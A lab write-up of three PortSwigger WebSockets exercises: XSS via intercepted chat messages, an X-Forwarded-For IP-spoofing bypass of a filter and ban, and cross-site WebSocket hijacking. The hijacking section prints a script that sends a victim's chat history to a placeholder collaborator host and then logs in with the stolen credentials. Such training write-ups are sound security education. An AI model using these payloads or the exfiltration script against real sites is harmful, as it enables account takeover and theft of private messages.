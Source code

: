 # WebSockets

## Manipulating WebSocket messages to exploit vulnerabilities

### Description

[This online shop](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities) has a live chat feature implemented using WebSockets. Chat messages that you submit are viewed by a support agent in real time. 

### Proof of Concept

1. Click "Live chat" and send a chat message. 
2. In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3. Using your browser, send a new message containing a `<` character. In Burp Proxy, find the corresponding WebSocket message and observe that the `<` has been HTML-encoded by the client before sending.
4. Ensure that Burp Proxy is configured to intercept WebSocket messages, then send another chat message.
5. Edit the intercepted message to contain the following payload: 

```text
<img src=1 onerror='alert(1)'>
```

6. Observe that an alert is triggered in your browser. This will also happen in the support agent's browser.

### Exploitability

An attacker will need to use a WebSocket message to trigger an `alert()` popup in the support agent's browser. 

----

## Manipulating the WebSocket handshake to exploit vulnerabilities

### Description

[This online shop](https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities) has a live chat feature implemented using WebSockets. It has an aggressive but flawed XSS filter. 

### Proof of Concept

1. Click "Live chat" and send a chat message.
2. In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3. Right-click on the message and select "Send to Repeater".
4. Edit and resend the message containing a basic XSS payload, such as:

```text
<img src=1 onerror='alert(1)'>
```

5. Observe that the attack has been blocked, and that your WebSocket connection has been terminated. 
6. Click "Reconnect", and observe that the connection attempt fails because your IP address has been banned.
7. Add the following header to the handshake request to spoof your IP address:

```text
X-Forwarded-For: 1.1.1.1
```

8. Click "Connect" to successfully reconnect the WebSocket. 
9. Send a WebSocket message containing an obfuscated XSS payload, such as:

```text
<img src=1 oNeRrOr=alert`1`> 
```

### Exploitability

An attacker will need to use a WebSocket message to trigger an `alert()` popup in the support agent's browser. 

----

## Cross-site WebSocket hijacking

### Description

[This online shop](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) has a live chat feature implemented using WebSockets. 

### Proof of Concept

1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
5. Right-click on the handshake request and select "Copy URL".
6. In your browser, go to the exploit server and paste the following template into the "Body" section:

```text
<script>
  var ws = new WebSocket('wss://websocket-url');
  ws.onopen = function() {
    ws.send("READY");
  };
  ws.onmessage = function(event) {
    fetch('https://collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
  };
</script>
```

7. Replace ``websocket-url`` with the URL from the WebSocket handshake (``lab-id.web-security-academy.net/chat``). Make sure you change the protocol from ``https://`` to ``wss://``. Replace ``collaborator-url`` with a payload generated by Burp Collaborator Client.
8. Click "View exploit".
9. Poll for interactions using Burp Collaborator client. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
11. Poll for interactions using Burp Collaborator client again. Observe that you've received more HTTP interactions containing the victim's chat history. Examine the messages and notice that one of them contains the victim's username and password.
12. Use the exfiltrated credentials to log in to the victim user's account.

### Exploitability

An attacker will need to use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this to gain access to their account. 


